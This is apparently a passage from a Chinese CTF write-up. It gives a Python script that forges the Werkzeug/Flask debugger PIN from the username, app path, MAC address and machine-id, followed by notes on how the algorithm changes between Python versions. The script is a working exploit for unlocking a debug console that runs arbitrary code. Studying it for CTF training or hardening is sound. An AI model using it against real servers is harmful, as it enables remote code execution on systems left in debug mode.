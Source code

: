 伪造脚本

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '95533043256',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '96cec10d3d9307792745ec3b85c89620567bdd6dd7eb762b937eccd1f8e6a61036dd86ddad5c1669887bbd197d5e1852'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

还有一点需要注意的是，对于md5与sha1的分界点是**py3**

而**machin_id**的分界点是**py3.8**
